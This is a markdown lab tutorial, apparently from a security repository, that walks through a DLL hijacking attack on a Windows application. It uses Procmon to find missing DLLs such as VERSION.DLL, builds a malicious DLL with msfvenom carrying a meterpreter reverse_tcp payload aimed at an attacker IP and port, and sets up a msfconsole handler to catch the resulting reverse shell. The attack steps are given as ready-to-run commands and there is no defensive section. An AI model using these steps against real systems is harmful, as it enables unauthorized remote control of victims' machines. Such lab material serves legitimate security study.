 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom
- Create two Virtual Machine:
  - Windows OS (Exe Application Executing)
  - Kali Linux (Attacker Machine)

## POC

> **Step-1: Identifying Vulnerable DLLs that we can Hijack.**
 - Start Application
 - Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
     1. Process Name = contains = "Select Your Application Name" -> Add
     2. Path         = contains = ".dll"                         -> Add 
     3. Result       = contains = "NAME NOT FOUND"               -> Add
   
 - Click OK for apply filters.
> **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> **Step-3: Now find the Dlls which are trying to load from current working application and is not available** ***(e.g: VERSION.DLL)*** 
            Application is trying to load this DLL but not able to find in to the application directory.
            
> **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

    ``$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll``

> **Step-5: Now create reverse shell handler with msfconsole**

    ``$ sudo msfconsole
      
      msf > use exploit/multi/handler

      msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      payload => windows/meterpreter/reverse_tcp

      msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
      LHOST => 192.168.252.130

      msf exploit(multi/handler) > set LPORT 8888
      LPORT => 8888

      msf exploit(multi/handler) > exploit  
    ``
   Done..! 

> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application **

As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.

